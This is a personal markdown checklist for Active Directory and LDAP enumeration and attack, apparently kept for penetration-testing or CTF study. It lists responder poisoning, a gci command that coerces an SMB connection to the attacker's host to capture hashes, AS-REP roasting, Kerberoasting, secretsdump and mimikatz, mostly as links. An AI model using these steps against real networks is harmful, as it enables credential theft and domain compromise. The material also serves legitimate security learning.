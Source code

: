 # ldap - Enumeration

## Keep in mind

   https://github.com/Andre92Marcos/escalations/blob/master/active_directory_attacks_enumeration.md
   https://github.com/Andre92Marcos/escalations/blob/master/ldap_security_enumeration.md

## When we dont have anything

### Do simple enum of services (RPC,SMB)

Use enum4linux-ng

   https://github.com/Andre92Marcos/tools/tree/master/enum4linux-ng


### Try to do an ldap anonymous bind

   ldapsearch -x -b "dc=example,dc=com"


### Use ldapdomaindump

https://github.com/Andre92Marcos/tools/tree/master/ldapDomainDump

### Use netexec

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md#ldap

## When we have access to target's network

Start responder to try to do some poisoning

   https://github.com/Andre92Marcos/tools/tree/master/responder

## If we have usernames and want to check if they are domain usernames

Enumerate users found to see if they pre authenticate to kerberos

   kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <filename_with_usernames>


## When we have a domain username, no password, no shell

If we can make the target make a smb request back to us

   For example using sqlinjection, we can use responder to get hash and try to crack it
   https://github.com/Andre92Marcos/tools/tree/master/responder


Try to do some ASREProasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/ASREProasting.md

If we are successful we can also try to do some Kerberoasting no preauthentication

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md#kerberoast-no-pre-authentication

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound

## When we have a domain username and a password

We can request a TGT

   https://github.com/AndreMIsidoro/tools/blob/master/impacket/getTGT.md

Try to do some Kerberoasting

   https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/kerberoasting.md



## When we have a domain username, but no password, but we have a shell

Do a gci request to get the user hash (and use it in other protocols, and try to crack it), with responder running

   gci \\<mylocalhostip>\share\file #share and file dont have to exist

Use group3r

   https://github.com/Andre92Marcos/tools/tree/master/group3r

Use ADRecon

Use the snaffler tool

   https://github.com/Andre92Marcos/tools/tree/master/snaffler

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


If our user have some special permissions run secretdump

   https://github.com/Andre92Marcos/tools/blob/master/impacket/secretdump.md

If we are not finding anythin with bloodhound

   Load powesploit PowerView.ps1 from:

      https://github.com/PowerShellMafia/PowerSploit/tree/dev

   And then run 

      Find-InterestingDomainAcl -ResolveGUIDS | ConvertTo-Json

   This might find relations that bloodhound missed

## When we have a TGT and there is certificate authentication in the domain

User certipy to find vulnerabilities (for example, after a shadow credentials attack)

https://github.com/Andre92Marcos/escalations/blob/master/ad_attacks_enum/shadow_credentials.md
https://github.com/Andre92Marcos/tools/blob/master/certipy-ad/README.md#find



## When have a local Admin or domain Admin

Use mimikatz tool. (Also if we have user with SeDebugPrivilege)

   https://github.com/Andre92Marcos/tools/tree/master/mimikatz


## Other Tips

### Sync time with kerberos

To figure out the difference in time with the kerberos server:

   sudo ntpdate 10.129.127.130

To simulate the difference in time when executing a command:

   faketime -f '+7h' <command>